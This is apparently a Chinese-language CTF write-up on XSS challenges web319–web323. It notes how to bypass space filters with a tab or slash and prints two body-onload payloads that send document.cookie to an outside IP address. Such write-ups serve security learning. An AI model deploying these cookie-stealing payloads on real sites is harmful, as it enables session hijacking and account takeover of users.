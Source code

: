 ### web319

body继续可用

php端成功了（要慢一点访问

![image-20221219151327032](XSS.assets/image-20221219151327032.png)

### web320

过滤了空格

tab符或者 / 都可以

```js
<body%09onload="window.location.href='http://1.15.107.150:7778?c='+document.cookie">
<body/onload="window.location.href='http://1.15.107.150:7778?c='+document.cookie">
```

### web321

上题的payload仍然可用

愚了，用python起的临时服务端就可以重复接受了(**nc**相当于两边牵手？学socket的时候在研究，留个坑先

![image-20221219152111742](XSS.assets/image-20221219152111742.png)

### web322

%09用不了了，/ 还可以用

![image-20221219152650942](XSS.assets/image-20221219152650942.png)

### web323

同上
